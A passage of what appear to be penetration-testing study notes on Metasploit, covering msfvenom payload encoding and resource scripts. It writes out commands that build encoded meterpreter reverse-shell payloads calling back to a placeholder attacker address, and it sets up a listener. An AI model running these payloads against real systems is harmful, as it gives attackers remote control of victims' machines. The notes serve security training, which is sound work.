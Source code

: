 <a id=5.2></a>
## Encoding payloads with MsfVenom

We can use msfvenom to encode payloads. This is used to obfuscate the code made by the payload. Some people
think that this encoders are used to evade antivirus, but this is not true. Although it could be useful for that
particular task, its not its main function. Maybe it will help evading signature-based AVs, but those nowadays
are far and few in between. Most EDR and XDR solutions use machine learning and AI nowadays, heuristic analysis
and runtime analysis.

Shellcode is a piece of code that is typically used as a payload for exploitation. It gets its name from the term
command shell, whereby shellcode is a piece of code that provides the attacker with a remote command shell on the
target system.

```bash
$ msfvenom --list encoders
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f exe -o ~/payload.exe -e x86/shikata_ga_nai 
# this will encode the payload ONCE. 
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f exe -o ~/payload.exe -e x86/shikata_ga_nai -i [ITERATIONS]
# this will encode the payload an N amount of times.
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f elf -o ~/payload -e x86/shikata_ga_nai -i [ITERATIONS]
# same thing but for linux.
$ sudo systemctl start postgresql && msfdb init && msfconsole
msf6 > use multi/handler
# do the same as before. go pwn something!!!!!
```


<a id=5.3></a>
## Automating Metasploit with Resource Scripts

Resource scripts are a way to automatize stuff on the Metasploit Console. We could automate something simple like a single auxiliary
scan, or maybe an entire list of scans, or maybe all! It will depend on what we want to do with the scripts. 

The way to use them is quite simple. We can either take a "recording" of what we did on a console session and dump it. We can also
create our own, and luckily they work in a very similar way to Bash or Batch scripts.

```bash
msf6 > use auxiliary/scanner/http/http_version
msf6 auxiliary(scanner/http/http_version) > set RHOSTS [TARGET]
msf6 auxiliary(scanner/http/http_version) > set RPORT [PORT]
msf6 auxiliary(scanner/http/http_version) > run
msf6 auxiliary(scanner/http/http_version) > makerc megahax.rc
[*] Saving last 8 commands to megahax.rc ...
msf6 auxiliary(scanner/http/http_version) > exit
$ cat megahax.rc
use auxiliary/scanner/http/http_version
setg RHOSTS 192.168.1.1
setg RPORT 80
# as we can see, the resource script saves all our msfconsole commands.
$ ls -l /opt/metasploit/scripts/resource/ # For Arch
$ ls -l /usr/share/metasploit-framework/scripts/resource/ # For whatever else
# metasploit also comes with a few resource scripts ready to be used. lets create a script that will open a handler for us
```